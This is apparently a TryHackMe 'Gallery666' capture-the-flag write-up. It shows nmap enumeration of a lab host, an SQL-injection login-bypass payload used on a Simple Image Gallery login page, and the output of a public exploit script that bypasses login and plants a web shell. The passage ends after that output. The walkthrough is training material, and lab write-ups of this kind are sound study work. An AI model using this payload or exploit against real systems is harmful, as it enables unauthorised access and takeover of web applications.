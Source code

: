 ```yaml
---
title: "Gallery666"
Date: 2022-11-05
author: "Divyanshu Sharma"
permalink: /tryhackme/gallery666
tags: tryhackme
---
```


# IP
10.10.58.133

## Enumeration
### Nmap
Found two ports running on the system.
```console
❯ nmap -sC -sV 10.10.58.133 | tee nmap.log
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-18 11:40 IST
Nmap scan report for 10.10.58.133
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Simple Image Gallery System
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.72 seconds
```
### http://10.10.58.133:8080
1. Found a login screen.
2. Just to test a payload user `admin' || ' 1==1` and password as `admin' || ' 1==1`.
3. Logged in as `Administrator`.
4. On searchsploit CMS `Simple Image Gallery`, so used exploit rather than uploading malicious file and getting a reverse shell.


## Exploit
### CMS
```console
❯ python3 50214.py
TARGET = http://10.10.58.133:8080
Login Bypass
shell name TagojeiavxeyjeimuxrLetta

protecting user

User ID : 1
Firsname : Adminstrator
Lasname : Admin
```